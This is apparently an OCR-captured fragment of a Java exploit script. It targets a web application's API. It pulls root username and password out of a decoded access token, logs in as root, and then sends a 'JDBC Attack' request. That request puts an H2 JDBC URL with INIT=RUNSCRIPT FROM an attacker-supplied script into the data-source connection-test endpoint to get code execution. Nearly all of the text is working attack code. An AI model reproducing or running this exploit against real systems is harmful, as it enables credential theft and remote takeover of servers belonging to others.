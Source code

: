 ```
            String decodedAccessToken = new String(decodedBytes, StandardCharsets.UTF_8);


            JSONObject decodedJsonObject = new JSONObject(decodedAccessToken);

            String rootUsername = "";
            String rootPassword = "";
            if (decodedJsonObject.has("rootUsername") && decodedJsonObject.has("rootPassword")) {
                rootUsername = decodedJsonObject.getString("rootUsername");
                rootPassword = decodedJsonObject.getString("rootPassword");
                System.out.println("[*] Root username: " + rootUsername);
                System.out.println("[*] Root password: " + rootPassword);
            } else {
                System.out.println("Access token does not contain rootUsername and rootPassword keys.");
            }

            // second login request with root credentials
            HttpURLConnection con3 = (HttpURLConnection) obj.openConnection();
            con3.setRequestMethod("POST");
            con3.setRequestProperty("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0");
            con3.setRequestProperty("Accept", "application/json, text/plain, */*");
            con3.setRequestProperty("Accept-Language", "en-US,en;q=0.5");
            con3.setRequestProperty("Accept-Encoding", "gzip, deflate");
            con3.setRequestProperty("Content-Type", "application/json;charset=utf-8");
            con3.setRequestProperty("Access-Token", "");
            con3.setRequestProperty("Origin", "http://" + host + ":" + port);
            con3.setRequestProperty("DNT", "1");
            con3.setRequestProperty("Connection", "close");
            con3.setRequestProperty("Referer", "http://" + host + ":" + port + "/");
            String requestBody3 = "{\"username\":\"" + rootUsername + "\",\"password\":\"" + rootPassword + "\"}";
            con3.setDoOutput(true);
            con3.getOutputStream().write(requestBody3.getBytes("UTF-8"));
            int responseCode3 = con3.getResponseCode();
            System.out.println("[*] Root Login Response Code: " + responseCode3);
            BufferedReader in3 = new BufferedReader(new InputStreamReader(con3.getInputStream()));
            String inputLine3;
            StringBuffer response3 = new StringBuffer();
            while ((inputLine3 = in3.readLine()) != null) {
                response3.append(inputLine3);
            }
            in3.close();
            JSONObject jsonObject3 = new JSONObject(response3.toString());
            JSONObject model3 = jsonObject3.getJSONObject("model");
            String accessToken3 = model3.getString("accessToken");
            System.out.println("[*] Root Access Token: " + accessToken3);

            // JDBC Attack
            String url2 = "http://" + host + ":" + port + "/api/data-source/connectTest";
            String requestBody = "{\"name\":\"azima\",\"driver\":\"org.h2.Driver\",\"url\":\"jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM '"+JDBC+"'\",\"username\":\"a\",\"password\":\"a\"}";

            URL obj2 = new URL(url2);
            HttpURLConnection con2 = (HttpURLConnection) obj2.openConnection();


            con2.setRequestMethod("POST");
            con2.setRequestProperty("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0");
            con2.setRequestProperty("Accept", "application/json, text/plain, */*");
```
